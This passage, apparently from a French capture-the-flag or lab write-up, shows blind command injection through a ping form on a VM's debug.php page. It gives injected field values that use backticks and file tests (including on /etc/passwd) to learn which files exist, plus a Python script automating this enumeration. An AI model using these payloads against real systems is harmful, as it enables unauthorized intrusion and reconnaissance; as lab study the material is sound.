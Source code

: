 Mon adresse IP étant 192.168.1.3 (celle de la VM 192.168.1.21) j'ai utilisé des backticks avec un test conditionnel pour tester la présence de fichiers sur le système. Ainsi si je rentre le texte suivi dans le champ du formulaire :  

```plain
-c 1 `[ -f /etc/passwd ] && echo 192.168.1.3`
```

j'obtiens bien un ICMP echo reply en retour.  

En revanche avec  

```plain
-c 1 `[ -f /usr/bin/cat ] && echo 192.168.1.3`
```

nada ! Alors qu'avec  

```plain
-c 1 `[ -f /bin/bash ] && echo 192.168.1.3`
```

J'ai à nouveau un paquet ICMP. J'ai choisi de passer un moment à écrire un script me permettant d'énumérer les fichiers présents sur le système.  

Une première partie émet simplement les requêtes HTTP à destination de *debug.php* et injecte la commande ping :  

```python
import requests
import fcntl
import time

hdrs = {"Content-Type": "application/x-www-form-urlencoded"}
data = {'addr': 'command'}

with open("/tmp/files.txt") as fd:
    while True:
        word = fd.readline()
        if not word:
            break
        word = word.strip()
        if not word:
            continue

        cmd = "-c 1 `[ -f {0} ] && echo 192.168.1.3`".format(word)
        data['addr'] = cmd

        fdout = open("/tmp/current_path", "w")
        fcntl.flock(fdout.fileno(), fcntl.LOCK_EX)
        fdout.write(word)
        fcntl.flock(fdout.fileno(), fcntl.LOCK_UN)
        fdout.close()

        requests.post("http://192.168.1.21/debug.php", data=data, headers=hdrs)
        time.sleep(0.1)
```
